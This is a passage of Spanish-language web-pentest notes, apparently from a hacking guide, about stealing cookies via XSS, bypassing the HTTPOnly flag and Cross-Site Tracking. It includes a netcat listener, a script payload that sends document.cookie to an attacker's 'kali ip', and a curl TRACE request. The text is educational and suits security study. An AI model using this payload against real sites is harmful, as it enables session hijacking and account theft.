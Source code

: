 Una vez que obtengamos la cookie deseada, podemos hacer varias operaciones además de la tala. Algunos ejemplos son los siguientes:

* una solicitud a una API que requiere las cookies robadas (implantación)
* notificar al atacante por correo electrónico

La solución simple es utilizar netcat

```bash
netcat -lvvp 80
<script> new Image().src="kali ip"+escape(document.cookie); </script>
```

### Bypassing HTTPOnly Flag

Esta bandera obliga al navegador a manejar la cookie sólo cuando se descarte la solicitud HTTP; por lo tanto; Para los lenguajes de scripting del lado del cliente (IE: JavaSCript), estas cookies son prácticamente invisibles.

### Cross-Site Tracking (XST)

TRACE connection:

```bash
curl <victim.site> -X TRACE -H "Test: test-header"
```

En JavaScript, existe el objeto **XMLHttpRequest** que proporciona una manera fácil de recuperar datos de una URL.

> Esta técnica es muy antigua y consecuentemente navegadores modernos BLOCK el método HTTP TRACE en XMLHttpRequest y en otros lenguajes y bibliotecas de scripting como _JQuery_, _Silverlight_, _Flag/ACtionScript_, etc.

![](<../../.gitbook/assets/image (14).png>)

### CVE:2012-0053 aka Apache HTTPOnly Cookie Disclosure
